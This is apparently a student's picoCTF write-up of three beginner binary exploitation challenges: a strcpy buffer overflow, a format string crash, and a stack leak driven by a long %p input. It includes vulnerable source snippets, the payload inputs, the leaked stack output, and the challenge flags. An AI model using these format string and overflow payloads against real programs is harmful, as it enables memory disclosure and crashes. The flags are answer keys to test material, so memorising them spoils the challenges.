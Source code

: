 # Buffer Overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}`

The Challenge name indicates is a basic buffer overflow, 

- As given in the program 

```

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

- We know that strcpy is a vulnerable function which will segmentfault and call the sigsev function,  
- This in turn will give us the flag. 

What you learned through solving this challenge:

1. Basics of Binary exploitation
2. Buffer flowing and how the program flows 

References:
- https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
---

# Format String0 

**Flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}`

- Format Specifiers in c are used describe the type of data we are printing. 

```
char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

```

- from this we know that the length of printf needs to be bigger than 2 * BUFFSIZE(32)
- the option `Gr%114d_Cheese` prints about 114 chars on thus proceeding us in the program 

- going futher:
```
char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}

```

- in the option `Cla%sic_Che%s%steak` the 5s expects a string argument which is not given because of which program crashes and gives us our flag.

What you learned through solving this challenge:

1. C format specifiers
2. How they can be use to segfault a program 


References

- https://www.geeksforgeeks.org/format-specifiers-in-c/

---


# flag leak

**Flag:** `picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}`

There is a format string vulnerablity in the source,

due to this vulnerablity we can read arbitary values in the stack, 

- using a bunch of %x. on the input gives us the output as, 

```
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p



Here's a story - 0xff9df6c00xff9df6e00x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x2570250x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x395f6b630x303666350x7d3731360xfbad20000xc1631000(nil)0xee7239900x804c0000x8049410(nil)0x804c0000xff9df7a80x80494180x20xff9df8540xff9df860(nil)0xff9df7c0(nil)(nil)0xee519ed5

```

- converting this hex string to ascii we get some gibberish then in b/w `ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5}716û­` so now only have to rearrange and we have the flag, 
- since stack foes from bottom to up rearranging every 4 bytes we get, 

- `picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}`

What you learned through solving this challenge:

1. format string vulnerablities
2. C stack handling (need to learn about this more)

Other incorrect methods you tried:

- Was having problems with converting the given string in python, forgetting cyberchef is convinient tool and automatically delimits the string. 

References
- https://gchq.github.io/CyberChef
- https://owasp.org/www-community/attacks/Format_string_attack


